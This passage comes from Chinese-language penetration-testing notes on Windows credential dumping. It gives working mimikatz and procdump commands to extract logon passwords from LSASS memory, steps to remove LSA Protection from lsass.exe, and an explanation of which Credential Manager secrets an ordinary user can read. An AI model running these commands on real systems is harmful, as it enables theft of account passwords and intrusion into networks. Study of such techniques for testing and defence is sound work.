#### 使用mimikatz

`mimikatz "sekurlsa::logonPasswords" "full" "exit"`

#### 使用procdump

使用procdump转储lsass进程

`procdump.exe -accepteula -ma lsass.exe c:lsass.dmp 2>&1`

使用mimikatz从转储文件提取密码

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```



#### LSASS Protection Bypass

LSASS Protection开启方式：

可以通过注册表开启LSA Protection，注册表位置：
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
新建-DWORD（32）值，名称为 RunAsPPL,数值为 00000001，然后重启系统生效。

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonPasswords
```

### Credential Manager

#### 简介


Credential Manager，中文翻译为凭据管理器，用来存储凭据(例如网站登录和主机远程连接的用户名密码)

如果用户选择存储凭据，那么当用户再次使用对应的操作，系统会自动填入凭据，实现自动登录

凭据保存在特定的位置，被称作为保管库(vault)(位于`%localappdata%/Microsoft\Vault`)

#### 凭据类别

包含两种，分别为`Domain Credentials`和`Generic Credentials`

##### Domain Credentials：

只有本地Local Security Authority (LSA)能够对其读写

也就是说，普通权限无法读取Domain Credentials类型的明文口令

##### Generic Credentials：

能够被用户进程读写

也就是说，普通权限可以读取Generic Credentials类型的明文口令
